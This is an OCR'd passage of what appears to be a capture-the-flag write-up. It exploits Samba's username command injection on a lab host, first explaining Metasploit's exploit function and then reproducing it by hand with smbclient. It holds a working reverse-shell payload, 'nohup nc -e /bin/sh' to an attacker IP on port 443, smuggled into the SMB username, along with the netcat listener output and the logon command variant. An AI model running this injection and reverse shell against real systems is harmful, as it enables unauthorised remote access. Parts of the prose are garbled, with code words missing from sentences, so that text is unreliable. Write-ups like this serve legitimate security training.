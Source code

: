 
The key part is in at the bottom. It is creating an SMB session using:`def exploit`

*   username = ```/=`nohup [payload]` ```
*   password = random 16 characters
*   domain = user provided domain

So basically on Linux, are used to execute and put the output in place, just like . It seems Samba is allowing that to happen inside the username. Metasploit is calling (which starts the process outside the current context) and then a payload.``` ` ` ````$()``nohup`

#### smbclient Fails


```
I’ll try this with . I’ll start a listener on 443. I can connect to the share using . First I tried specifying a user:`smbclient``nc``smbclient //10.10.10.3/tmp`

    root@kali# smbclient //10.10.10.3/tmp -U "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    nohup: ignoring input and redirecting stderr to stdout
    

At my listener, I get a connection:

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.14.24.
    Ncat: Connection from 10.10.14.24:48532.
    

Unfortunately, it’s from my local box. My is executing the before sending the connection. I’ll swap the for :`bash```` ` ` ````"``'`

    root@kali# smbclient //10.10.10.3/tmp -U './=`nohup nc -e /bin/sh 10.10.14.24 443`'
    Enter =`NOHUP NC -E \bin/sh 10.10.14.24 443`'s password:
    

For some reason, the start of the command is getting capitalized, which is going to break execution.
```


#### smbclient success

It turns out there’s another way to login over , and that’s used for changing users once connected with the command (I just hit enter when prompted for a password):
```
`smbclient``logon`

    smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.24 443`"
    Password: 
    session setup failed: NT_STATUS_IO_TIMEOUT
    
```
